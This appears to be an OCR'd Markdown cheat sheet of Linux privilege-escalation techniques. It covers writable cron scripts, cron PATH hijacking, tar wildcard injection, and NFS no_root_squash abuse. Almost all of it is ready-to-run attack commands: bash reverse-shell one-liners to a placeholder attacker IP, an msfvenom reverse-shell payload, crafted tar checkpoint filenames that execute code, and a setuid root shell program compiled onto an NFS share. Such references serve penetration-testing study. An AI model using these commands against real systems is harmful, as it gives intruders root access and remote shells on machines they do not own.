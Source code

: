 ### ⏰ Scheduled Tasks (Cron Jobs)

#### Writable Cron Script
```bash
# Identification: Check for writable scripts run by root cron jobs
cat /etc/crontab
ls -la /path/to/script.sh

# Exploitation: Overwrite script with reverse shell payload
echo '#!/bin/bash' > /path/to/script.sh
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1' >> /path/to/script.sh
# Wait for cron job to execute
```

#### Cron PATH Hijacking
```bash
# Identification: Root cron job uses relative path in writable directory
cat /etc/crontab

# Exploitation: Create malicious script with same name in writable directory
echo '#!/bin/bash' > /home/user/backup.sh
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1' >> /home/user/backup.sh
chmod +x /home/user/backup.sh
# Wait for cron job to run
```

#### Cron Wildcard Injection
```bash
# Identification: Root cron job runs command with wildcard in writable directory
# Example: cd /home/user && tar czf /backups/archive.tar.gz *
cat /etc/crontab

# Exploitation:
# 1. Create reverse shell payload
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell

# 2. Create specially named files to exploit wildcard and tar's checkpoint feature
touch '--checkpoint=1'
touch '--checkpoint-action=exec=./shell'
```

### 🌐 Network Services (NFS)

#### NFS with no_root_squash
```bash
# Identification (on Attacker Machine):
showmount -e <TARGET>

# Exploitation (on Attacker Machine):
# 1. Create mount point and mount the share
mkdir /tmp/nfs_mount
sudo mount -o rw <TARGET>:<SHARE_PATH> /tmp/nfs_mount

# 2. Create malicious C file on the mount
echo '#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void main() {
    setuid(0); setgid(0);
    system("/bin/bash -p");
}' > /tmp/nfs_mount/shell.c

# 3. Compile the file
sudo gcc /tmp/nfs_mount/shell.c -o /tmp/nfs_mount/shell
```
